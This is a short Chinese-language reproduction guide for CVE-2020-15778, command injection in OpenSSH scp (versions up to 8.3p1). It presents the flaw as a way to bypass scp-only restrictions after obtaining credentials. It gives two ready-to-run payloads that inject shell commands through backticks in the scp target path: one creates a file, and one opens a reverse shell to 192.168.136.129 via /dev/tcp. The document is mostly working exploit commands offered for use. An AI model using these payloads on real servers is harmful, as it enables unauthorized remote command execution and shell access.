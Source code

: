 （CVE-2020-15778）OpenSSH 命令注入漏洞
======================================

一、漏洞简介
------------

**实际环境中的利用方案以及场景：**对于用户来说，ssh被阻止，但authorized\_keys文件中的命令选项允许使用scp的情况。您可以绕过此限制并在远程服务器上执行命令。也就是说，实际中通过各种手段获取到了ssh的用户密码，但是不允许ssh连接，或者ip等各种限制，可以尝试此漏洞进行利用。

二、漏洞影响
------------

OpenSSH \<=8.3p1

三、复现过程
------------

### 命令执行

    scp 1.txt root@ip:'`touch /root/test2.txt`/root/12111.txt'

![11.png](./resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId25.png)

### 反弹shell

    scp test.txt test@192.168.136.133:'`bash -i >& /dev/tcp/192.168.136.129/7777 0>&1`/tmp/test3.txt'

![10.png](./resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId27.png)
